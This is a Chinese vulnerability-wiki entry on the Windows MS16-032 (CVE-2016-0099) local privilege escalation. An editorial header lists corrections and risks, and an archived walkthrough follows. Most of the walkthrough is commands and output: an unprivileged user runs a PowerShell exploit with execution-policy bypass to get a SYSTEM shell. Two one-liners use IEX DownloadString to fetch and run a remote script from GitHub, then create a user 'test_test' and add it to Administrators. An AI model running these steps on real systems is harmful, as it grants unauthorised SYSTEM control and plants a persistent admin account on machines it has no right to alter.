

# （） MS16-32 windows 本地提权漏洞 CVE-2016-0099

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows Secondary Logon / CreateProcessWithLogonW
- 文献类型：MS16-032竞态工具实验
- 版本、权限及部署边界：本地普通用户；所用PowerShell脚本要求至少2CPU核心、PowerShell2+；具体测试OS/build未列
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. MS16-32标题应补为MS16-032统一公告标识；2核/PS版本是特定脚本要求应与漏洞必要条件区分
2. 命令/日志显示句柄竞态与SYSTEM子进程，保留交互/非交互脚本两种差异；缺漏洞根因与补丁状态
3. 第二演示创建用户再加入Administrators为持久修改，不应当唯一验证方式，未给清理；当前不执行
4. 远程IEX引用master可变脚本，需固定来源/提交且先审代码；官方公告和FuzzySecurity原作者来源有价值
5. 含SYSTEM成功字符串不等于独立身份验证，图未视检，缺具体修复KB及失败/竞态稳定性说明

### 操作风险

第二演示创建用户再加入Administrators为持久修改，不应当唯一验证方式，未给清理；当前不执行

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://docs.microsoft.com/zh-cn/security-updates/securitybulletins/2016/ms16-032>
- 原文参考链接（未重新核验）：<https://www.exploit-db.com/exploits/39574/>
- 原文参考链接（未重新核验）：<https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1>
- 原文参考链接（未重新核验）：<https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1>
- 原文参考链接（未重新核验）：<https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1'>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 介绍

漏洞类型：特权提升

Microsoft 安全公告：https://docs.microsoft.com/zh-cn/security-updates/securitybulletins/2016/ms16-032

exploit-db的详情：https://www.exploit-db.com/exploits/39574/

利用时需要满足的要求

> ①系统需要拥有至少2个的CPU核心
>
> ②Power shell v2.0以及更高的版本

影响的Windwos版本

> Windows Vista、Windows 7、Windows 2008 Server、Windows 2012 Server、Windows 8.1、Windows 10

## 漏洞利用

> 脚本地址：[1_Invoke-MS16-032.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1)


测试一：普通用户登录下，获取管理员cmd创建文件的方法有多种，这里演示两种：

①创建文件`1_Invoke-MS16-032.ps1`并写入内容；

```
E:\MS16-032>type nul > 1_Invoke-MS16-032.ps1

E:\MS16-032>notepad 1_Invoke-MS16-032.ps1    #写入内容
```

文件下载好之后，先展示一下当前用户，以及属组

```
E:\MS16-032>whoami
win...\test

E:\MS16-032>net user  test
用户名                 test
...
可允许的登录小时数     All

本地组成员             *Users
全局组成员             *None
命令成功完成。
```

无权的一个用户，现在开始执行脚本

```
E:\MS16-032>powershell -exec bypass
Windows PowerShell
版权所有 (C) 2009 Microsoft Corporation。保留所有权利。

PS E:\MS16-032> . .\1_Invoke-MS16-032.ps1

PS E:\MS16-032> Invoke-MS16-032
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PS E:\MS16-032> 
```




前面的步骤时进入powershell在执行命令，但其实可以加一个`-c`参数，后面可以直接接命令，分号分隔开，然后就会自动执行，不用进入powershell。

```
E:\MS16-032>powershell -exec bypass -c ". .\1_Invoke-MS16-032.ps1;Invoke-MS16-032"
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

E:\MS16-032>
```

脚本地址：[2_Invoke-MS16-032.ps1](https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1)


测试二：普通用户登录下，创建其他用户，并加入`administrators`组Ps：相对于测试一的脚本，该脚本进行了简单改变，可以执行任意程序，并可以添加参数执行（全程无弹框）。`-Application`参数可以执行任意程序

```
E:\MS16-032>whoami
win...\test

E:\MS16-032>net user test_test /add
发生系统错误 5。

拒绝访问。
```

```
E:\MS16-032>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user test_test test_test /add'"
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handles..
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

E:\MS16-032>net user
---------------------------------------------------------------------
Administrator            Guest                    HSW
test                     test_test
命令成功完成。


E:\MS16-032>net user test_test
用户名                 test_test
...
本地组成员             *Users
全局组成员             *None
命令成功完成。
```

可以看到`test_test`用户添加完成，但是只属于`Users组`，现在将其加入`Administrators组`，先查看一下组和权限

```
E:\MS16-032>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup Administrators test_test /add'"
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handles..
...
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

E:\MS16-032>net localgroup Administrators
别名     Administrators
注释     管理员对计算机/域有不受限制的完全访问权

成员

---------------------------------------------
Administrator
test_test
命令成功完成。


E:\MS16-032>net user test_test
用户名                 test_test
...
本地组成员             *Administrators       *Users
全局组成员             *None
命令成功完成。
```

